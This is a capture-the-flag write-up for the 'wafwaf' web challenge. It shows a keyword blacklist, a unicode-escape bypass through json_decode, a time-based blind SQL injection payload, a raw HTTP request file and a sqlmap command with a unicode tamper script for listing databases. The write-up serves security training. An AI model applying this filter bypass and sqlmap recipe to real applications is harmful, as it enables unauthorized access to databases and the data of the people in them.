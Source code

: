 # wafwaf
![Screenshot from 2021-08-17 19-41-29](https://user-images.githubusercontent.com/87865134/129727369-3ede4a39-cf71-4373-85ff-1cc49e07807d.png)

## Analysis
- we have blacklist 
```
[, (, *, <, =, >, |, ', &, -, @, ], select, and, or, if, by, from, where, as, is, in, not, having
```
- use `json_decode` => can use **unicode** to bypass blacklist
- `php://input`  is a read-only stream that allows you to read raw data from the request body
```php
$db->query("SELECT note FROM notes WHERE assignee = '%s'", $obj->user);
```
> Maybe SQLi

# Exploit
- Test SQLi:
  - change `' or sleep(15) #` to unicode utf-16
  ```
  \u0027 \u006f\u0072 \u0073\u006c\u0065\u0065\u0070\u0028\u0031\u0035\u0029 \u0023
  ```
  - use Burpsuite repeat request
  
![Screenshot from 2021-08-17 20-22-20](https://user-images.githubusercontent.com/87865134/129733348-18e2023c-29e0-4ec3-83c0-76bd937da74c.png)

  > Response delays about 15 sec => Blind SQLi

- Use `sqlmap` to exploit:
  - create file `request.txt`:
  ```
  POST / HTTP/1.1
  Host: 139.59.166.56:31053
  User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
  Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
  Accept-Language: en-US,en;q=0.5
  Accept-Encoding: gzip, deflate
  Connection: close
  Upgrade-Insecure-Requests: 1
  Content-Type: application/x-www-form-urlencoded
  Content-Length: 100

  {
    "user": "payload*"
  }

  ```
  - run `sqlmap` to list all database:
  ```
  sqlmap -r request.txt -tamper charunicodeescape --thread=10  --dbs --technique=T  
  ```
  
  
  ## - Description
  > **category**: SQL injection
  
